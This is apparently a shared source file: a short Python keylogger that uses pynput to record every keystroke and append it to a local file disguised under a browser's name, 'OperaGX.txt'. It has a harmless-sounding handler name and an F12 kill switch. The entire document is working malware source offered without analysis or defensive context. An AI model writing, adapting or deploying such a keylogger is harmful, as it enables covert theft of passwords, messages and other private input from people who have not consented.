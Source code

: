 from pynput.keyboard import Listener

def anonymous(key):
	key = str(key)
	key = key.replace("'","")
	if key == "Key.f12":
		raise SystemExit(0)
	if key == "Key.ctrl_l":
		key = "\n"
	if key == "Key.alt_l":
		key = "\n"
	if key == "Key.enter":
		key = "\n"
	if key == "Key.space":
		key = "\n"
	if key == "Key.shift_r":
		key = "\n"
	if key == "Key.shift S":
		key = "\n"
	if key == "Key.backspace":
		key = "\n"
	if key == "Key.tab":
		key = "\n"

	with open("OperaGX.txt", "a") as file:
		file.write(key)
	print(key)

with Listener(on_press=anonymous) as information:
	information.join()

